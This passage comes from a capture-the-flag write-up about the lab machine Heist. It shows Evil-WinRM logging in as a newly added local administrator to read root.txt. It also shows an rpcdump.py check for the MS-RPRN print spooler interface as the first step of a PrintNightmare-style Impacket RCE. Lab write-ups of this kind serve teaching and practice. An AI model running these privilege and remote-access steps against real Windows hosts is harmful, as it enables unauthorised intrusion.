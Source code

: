 

0xdf is now a user on the host, and in the Administrators group:



    *Evil-WinRM* PS C:\programdata> net user 0xdf
    User name                    0xdf
    Full Name                    0xdf
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            7/8/2021 7:08:26 AM
    Password expires             Never
    Password changeable          7/8/2021 7:08:26 AM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   Never

    Logon hours allowed          All

    Local Group Memberships      *Administrators
    Global Group memberships     *None
    The command completed successfully.



I can connect over Evil-WinRM and access anything, like `root.txt`:



    oxdf@parrot$ evil-winrm -i 10.10.10.149 -u 0xdf -p 0xdf0xdf

    Evil-WinRM shell v2.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\0xdf\Documents> cd ..\..\administrator\desktop
    *Evil-WinRM* PS C:\Users\administrator\desktop> type root.txt
    50dfa3c6************************



### Cube0x0 Impacket RCE

#### Scanning

Cube0x0 gives a way to test if the box is vulnerable using `rpcdump.py`,
and Heist is:



    oxdf@parrot$ rpcdump.py @10.10.10.149 | grep MS-RPRN
    Protocol: [MS-RPRN]: Print System Remote Protocol 
